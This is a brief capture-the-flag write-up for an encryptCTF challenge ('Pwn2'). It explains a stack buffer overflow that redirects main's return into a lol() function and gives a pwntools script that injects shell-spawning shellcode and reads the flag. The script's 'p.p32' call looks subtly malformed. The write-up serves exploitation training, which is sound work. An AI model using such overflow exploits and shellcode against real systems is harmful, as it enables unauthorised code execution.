 # Pwn2
### 📄 Description
I made a simple shell which allows me to run some specific commands on my server can you test it for bugs?

## 🔑 Solution
What we can do to retrieve the flag is overflowing the buffer `buffer`, overwriting `main()` return address to be `lol()` function entrypoint. We'll also need to provide shellcode where lol stack base will be.

```python
from pwn import *

context.binary = "./pwn2"

p = process()

p.send(b"A" * 44)
p.p32(context.binary.functions["lol"].address + 3)
p.sendline(asm(shellcraft.sh()))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag
```plain
encryptCTF{N!c3_j0b_jump3R}
```
